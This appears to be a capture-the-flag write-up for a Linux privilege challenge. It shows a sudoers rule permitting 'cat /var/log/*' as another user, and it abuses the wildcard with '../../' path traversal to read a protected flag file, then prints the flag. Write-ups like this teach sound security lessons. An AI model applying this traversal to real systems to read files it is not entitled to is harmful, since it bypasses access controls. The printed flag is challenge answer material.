 # Linux 5 – Super

## Challenge Description
This bot doesn’t look so important, it seems like he can do nothing… figure out how you can move on to the next user.

## Note
The Linux challenges are consecutive, starting from [part 1](../1%20-%20Lock%20and%20Key).

---
## Solution
First, we must log in to `bot5`, using the previous flag as the password, and then change directory to `bot5`'s home directory:
```
bot3@cybot01:~$ su bot5
Password: 
bot5@cybot01:/home/bot4$ cd ~
```

In the home directory, there is `flag.txt`. However, `bot5` does not have access to read the file; only `bot6` is allowed to:

```
bot5@cybot01:~$ ls -la
total 24
dr-xr-x---  2 root bot5 4096 Jun 18 09:51 .
drwxr-xr-x 10 root bot5 4096 Jun 18 09:51 ..
lrwxrwxrwx  1 root root    9 Jun 18 09:51 .bash_history -> /dev/null
-rwx------  1 root bot5    1 Jun 23 11:08 .bash_logout
-rwx------  1 root bot5  647 Jun 23 11:31 .bashrc
-rwxrwxrwx  1 root bot5   24 Jun 24 08:37 .profile
-r--------  1 bot6 root   22 Jun 18 09:51 flag.txt
```

As can be seen from the above, `flag.txt` is owned by `bot6`, and only `bot6` is allowed to read the file.

Dang, this bot is almost as useless as I am. Luckily, we can use `sudo` to run things as other users.
```
$ sudo -u <username> <command>
```

To see what we can do, we can use `sudo -ll`. The `-l` switch lists the current user's privileges, and `-ll` does the same but in a longer format.

```
bot5@cybot01:~$ sudo -ll
Matching Defaults entries for bot5 on cybot01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bot5 may run the following commands on cybot01:

Sudoers entry:
    RunAsUsers: bot6
    RunAsGroups: bot6
    Options: !authenticate
    Commands:
	/usr/bin/cat /var/log/*
```

We can see that we can run `/usr/bin/cat /var/log/*` as `bot6`.

Luckily for us, since they used a wildcard `*`, we can traverse the directories from `/var/log/` to reach our flag file:
```
bot5@cybot01:~$ sudo -u bot6 /usr/bin/cat /var/log/../../home/bot5/flag.txt 
CDDC21{b3w4r3sud03rz}
```

(Thanks a bunch to my teammate [@ThinkerPal](https://github.com/ThinkerPal/) who pointed out the `/../../` thing!)

### Flag:
```
CDDC21{b3w4r3sud03rz}
```

[< Part 4](../4%20-%20Line%20Inspection) | [Part 6 (by @ThinkerPal)](https://github.com/ThinkerPal/CTF-Writeups/tree/master/2021-02-CDDC/Linux%20Rules%20the%20World/6%20-%20Path%20to%20Win)
